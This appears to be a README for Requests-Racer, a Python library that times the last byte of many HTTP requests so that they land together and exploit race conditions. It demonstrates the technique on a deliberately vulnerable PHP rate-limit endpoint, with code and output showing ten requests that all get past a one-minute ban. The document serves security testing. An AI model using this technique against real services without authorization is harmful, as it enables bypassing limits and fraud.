 # The Problem

Suppose you have an endpoint vulnerable to a race condition. For example, consider this endpoint that you are not supposed to be able to access more often than once per minute:

```php
<?php
$now = microtime(true);
$ban_time = (float) file_get_contents('./race.ban');

echo "start: $now\n";

if ($now <= $ban_time) {
    die("you're banned\n");
}

usleep(100000); // do some processing for 100ms
echo "success\n";

file_put_contents('./race.ban', microtime(true) + 60); // ban for 1 minute
```

How do you quickly build a PoC for this?

# Python-Requests: absolutely useless

You might try using Requests, but that will perform the calls in series, so their execution will not overlap at all:

```python
>>> import requests
>>> res = [requests.get('https://aleksejs.scripts.mit.edu/race.php') for _ in range(3)]
>>> for req in res: print(req.text)
... 
start: 1562013897.9938
success

start: 1562013898.914
you're banned

start: 1562013899.9254
you're banned

```

# cURL: not great, not terrible

You might try running mutiple instances of cURL in parallel, and that's a little better:

```
aleksejs@aleksejs-T440s:~$ curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php
[1] 25671
[2] 25672
[3] 25673
[4] 25674
start: 1562015106.736
start: 1562015106.78
success
start: 1562015106.8535
you're banned
success
start: 1562015106.8786
start: 1562015106.8795
you're banned
you're banned
[1]   Done                    curl https://aleksejs.scripts.mit.edu/race.php
[2]   Done                    curl https://aleksejs.scripts.mit.edu/race.php
[3]-  Done                    curl https://aleksejs.scripts.mit.edu/race.php
[4]+  Done                    curl https://aleksejs.scripts.mit.edu/race.php
```

We've triggered the race once, but the rest of the requests arrived too late. And if you need to send large payloads of different sizes, you're going to have an even worse time:

```
aleksejs@aleksejs-T440s:~$ curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/10kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/100kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes"
[1] 25721
[2] 25722
[3] 25723
[4] 25724
start: 1562015251.716
start: 1562015251.7541
success
success
start: 1562015252.1507
you're banned
start: 1562015253.7403
you're banned
start: 1562015253.9519
you're banned
[1]   Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1kbytes"
[2]   Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/10kbytes"
[3]-  Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/100kbytes"
[4]+  Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes"

```

Those last three requests had no chance of succeeding.

Plus the output has all of this useless garbage in it and the outputs from the different requests are basically in a random order and interleaved. If you need to generate the requests dynamically, have fun writing that bash script, and if you want to process the output in any way, well, I don't envy you.

# The real solution

Running cURL in parallel synchronizes the time when the three requests will be *started*. But what you actually want to synchronize is the time when they *are sent completely* (and the server begins processing them). Because of network latency, synchronizing the former does not do a good job of synchronizing the latter, especially if your request payloads are large or differently-sized.

The way to synchronize the time when the request is done being sent is to first send most of the request in a mostly completely unsynchronized fashion, then synchronize the moment when you begin sending the last byte of each request.

Requests-Racer does this for you, while retaining the Requests API that you know and love:

```python
from synchronized_session import SynchronizedSession

NUM_ATTEMPTS = 10

s = SynchronizedSession(NUM_ATTEMPTS)

responses = [
    s.get('http://aleksejs.scripts.mit.edu/race.php') for _ in range(NUM_ATTEMPTS)
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562107013.0464 1562107013.0501 1562107013.0631 1562107013.0755 1562107013.0786 1562107013.0718 1562107013.0651 1562107013.0701 1562107013.0649 1562107013.0817
# outcomes: success success success success success success success success success success
```

```python
import time
from synchronized_session import SynchronizedSession

s = SynchronizedSession(10)

responses = [
    s.post(
    	'http://aleksejs.scripts.mit.edu/race.php',
    	files={'a': open('/tmp/{}kbytes'.format(n), 'rb')}
    )
    for n in [1, 1, 10, 10, 100, 100, 1000, 1000, 1000, 1000]
]

# waiting a bit before finishing the requests seems to help with
# timing consistency. why? no idea.
time.sleep(1)

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562108650.5056 1562108650.6038 1562108650.604 1562108650.6038 1562108650.6038 1562108650.605 1562108650.6054 1562108650.6045 1562108650.6044 1562108650.6046
# outcomes: success success success success success success success success success success
```

The requests are all processed by the backend within less than *100ms* of each other, even when they have massively different sizes.